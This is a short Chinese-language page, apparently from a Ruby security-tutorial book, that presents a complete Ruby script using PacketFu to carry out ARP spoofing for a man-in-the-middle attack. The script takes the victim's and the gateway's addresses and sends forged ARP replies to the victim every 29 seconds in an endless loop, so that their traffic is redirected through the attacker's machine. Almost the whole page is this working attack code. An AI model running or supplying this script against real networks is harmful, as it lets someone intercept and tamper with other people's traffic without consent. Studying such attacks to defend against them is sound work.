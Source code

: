 通过 ARP 欺骗和 PacketFU 以及套接字使用本书中的源代码作为基础的更复杂的 MiTM 攻击示例。

```
require 'packetfu'
require 'socket'

def poison(lip, lmac, vip, vmac, rip, int_name)
   puts "Sending ARP Packet Spoof Every 29 Seconds…"
   x = PacketFu::ARPPacket.new(:flavor => "Linux")
     x.eth_saddr = lmac     # your MAC Address
     x.eth_daddr = vmac     # victim MAC Address
     x.arp_saddr_mac = lmac # your MAC Address
     x.arp_daddr_mac = vmac # victim MAC Address
     x.arp_saddr_ip = rip   # Router IP Address
     x.arp_daddr_ip=  vip   # Victim IP Address
     x.arp_opcode = 2       # ARP Reply Code
   while true do 
     x.to_w(int_name)       # Put Packet to wire  interface
      sleep(29)             # interval in seconds, change for your preference 
   end
end

def get_ifconfig(int_name)
    int_config = PacketFu::Utils.whoami?(:iface => int_name)
    return int_config[:ip_saddr], int_config[:eth_saddr]
end

def get_victim_info
   puts "enter victim ip"
   vip = gets
   puts "enter victim MAC"
   vmac = gets
   puts "enter gateway ip"
   rip = gets
   return vip, vmac, rip
end

# need to be root to run this
unless Process.uid.zero?
  puts "you need to run this script as root!"
  exit 0
end

# select interface to use and start setup
interfaces = Socket.getifaddrs.map { |i| i.name }.compact.uniq
list = Hash[(0...interfaces.size).zip interfaces]
list.each do |l, v|
  puts "#{l} #{v}"
end

puts "enter interface number to use on MITM"
int_number = gets
if  list.key?(int_number.to_i)
   lip, lmac = get_ifconfig(list.fetch(int_number.to_i))
   vip, vmac, rip = get_victim_info()
   poison(lip, lmac, vip, vmac, rip, list.fetch(int_number.to_i))
else
  puts "Selected interface does not exists"
end 
```

来源：[Ruby-MiTM](https://github.com/ChrisFernandez/ruby-mitm "Ruby-mitm") 和 Rubyfu ARP 欺骗主题。
